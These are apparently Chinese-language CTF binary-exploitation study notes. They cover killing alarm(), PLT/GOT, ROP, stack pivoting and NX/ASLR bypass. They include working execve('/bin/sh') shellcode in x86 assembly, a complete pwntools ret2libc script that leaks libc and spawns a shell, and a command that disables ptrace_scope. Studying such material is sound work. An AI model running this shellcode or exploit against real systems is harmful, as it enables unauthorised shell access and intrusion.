


##  一些资源
```
http://shell-storm.org
http://shell-storm.org/shellcode/
https://www.exploit-db.com
https://www.exploit-db.com/shellcode/
```

## 干掉alarm
很多题目都有alarm函数防止Dos攻击，超过指定的时候后程序就会退出，不便于debug，通常有几种干掉alarm的方法：
- vim: `%s/alarm/isnan/g`
- `sed-i s/alarm/isnan/g [elf name]`
- LD_PRELOAD
```c
#include<stdio.h>
unsigned int alarm(unsigned int seconds){
    printf("%d",seconds);
}
```
编译：`gcc -shared [-fPIE/-fPIC] [-m32] hook.c -o hook.so`  
运行：`LD_PRELOAD=./hook.so ./pwnme`

## plt got .plt.got


plt 指向got,采用延时绑定。printf函数中，0x404c010实际内容是下一条指令`push 0`,
而plt.got是已经绑定的， puts函数的0x804bff4是指向实际puts函数的

## shellcode

```x86asm
jmp sh
run:
  pop ebx
  mov BYTE[ebx+7],0 ;append 0 to /bin/sh
  xor eax,eax
  mov al,11
  xor ecx,ecx
  xor edx,edx
  int 0x80
sh:
  call run
  db "/bin/sh"
```

linux 下
- 使用`nasm [sourcecode] -o [target] -felf32`编译一个汇编文件 
- 使用`objcopy -O binary [source.out] [target]`提取 shellcode的。
- 使用`xxd -i [target]`将上述shellcode转为char数组
相关工具
- https://github.com/Neetx/Shellcode-Extractor
从elf提取shellcode
## ROP
 1. ROPgadget 得到代码片断
 2. cd80c3 就是int0x80;ret,s使用`ROPgadget --binary {binaryname} --opcode cd80c3`来寻找
 3. 动态链接找不到 int 0x80,需要构造rop
```py
from pwn import *
r=process('ret2lib')

puts_got_plt = 0x804a01c
puts_offset =0x00069930

r.recvuntil(':')
r.sendline(str(puts_got_plt))
r.recvuntil(': ')
libc_base=int(r.recvline(keepends=False),16)-puts_offset # get libc base address
print hex(libc_base)
gets_off=0x000690d0             # objdump -D libc |grep gets@
system_off= 0x0003e8f0          # objdump -D libc |grep system@
gets = libc_base+gets_off
system = libc_base+system_off
buf=0x804b000 -30               # cat /proc/702/maps to get writable address 
rop=[
        gets,
        system,
        buf,
        buf
        ]
r.recvuntil(":")
r.sendline('a'*60+flat(rop))
r.sendline("/bin/sh\x00")
r.interactive()

```

### 寄存器赋值
构造栈结构
```
  *(pop eax ;ret)
  3
```
将eax赋值为3
### 栈转移
寻找 leave;ret;指令，然后更改ebp的值即可
leave= mov esp,ebp,pop ebp;
## 漏洞挖掘方法
* 现成CMS注意DIFF
* 根据漏洞PATCH
* 根据漏洞写出EXP，发动攻击 
## 保护
NX:DEP 栈不可执行，可执行不可写 ROP绕过
ALSR: 把每次载入的函数地址随机化，利用puts/printf 等leak出libc的实际地址

## strace
strace可以输出系统调用，应对一些打开就退出的情况，可以使用`strace -e trace=read,write [elf name]`来追踪特定的系统调用

## gdb attach 失败
```sh
echo 0 |sudo tee /proc/sys/kernel/yama/ptrace_scope
```
## LD_PRELOAD、 LD_SHOW_AUXV
LD_PRELOAD可以指定一个或多个共享库文件，linux加载器`ld-linux`会先于glibc加载LD_PRELOAD指定的库。  
用途：HOOK掉alarm。  
为了避免用于恶意攻击，在ruid !=euid的情况下加载器是不会使用LD_PRELOAD 进行预加载。